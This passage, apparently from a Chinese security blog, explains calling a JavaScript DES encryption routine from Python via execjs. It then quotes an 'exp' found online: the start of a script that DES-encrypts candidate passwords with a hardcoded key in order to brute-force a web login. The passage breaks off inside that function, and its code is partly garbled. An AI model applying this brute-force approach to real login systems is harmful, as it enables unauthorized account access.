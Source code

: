 这个模块只有des的ECB和CBC模式加密，并且填充方式只有pkcs5padding，和nomalpadding两种

正常des加密key固定是8位的，3des加密是16或者24位的



**python调用JS--execjs**

```javascript
def get_js():	//这个是获取js的函数
  f= open('C:\\des.js','r')
  line = f.readline()
   htmlstr = ''
  while line:
      htmlstr = htmlstr+line
      line = f.readline()
  return htmlstr
```

这个是加密的函数。先获取js然后解析js代码再调用js的函数并传参就可以返回加密的密码了。

```javascript
def DesEncrypt(str,key):	//这个是des加密的函数
  jsstr= get_js()	//获取js
  ctx= execjs.compile(jsstr)	//解析js代码
     password=ctx.call('encryptByDES',str,key)	//调用encryptByDES函数，并传参原文str和加密key
 password=(password.encode("unicode_escape").decode("string_escape")).decode('unicode-escape').encode('utf-8')	//解码，解出来是unicode的
  return password
```

知道明文key和密文解密：

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz0gwxmzf4j20vc0bvjru.jpg)

网上找的exp：

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

from gevent import monkey
from gevent.pool import Pool
monkey.patch_all()

import execjs,requests
Des_Key = '232cb851727762bbf7dd097da3bcd354' # Key  通过查看源码或者其他方式找到

def get_js():
    f = open('F:\\Website\\phpstudy\\PHPTutorial\\WWW\\des\\main_total.js', 'r')
    line = f.readline()
    htmlstr = ''
    while line:
        htmlstr = htmlstr+line
        line = f.readline()
    return htmlstr

def DesEncrypt(str,key):

    jsstr = get_js()
    ctx = execjs.compile(jsstr)
    password=ctx.call('encryptByDES',str,key)
    password=(password.encode("unicode_escape").decode("string_escape")).decode('unicode-escape').encode('utf-8')
    return password

def bruteforce(user):

    for keyword in passwordDict:
```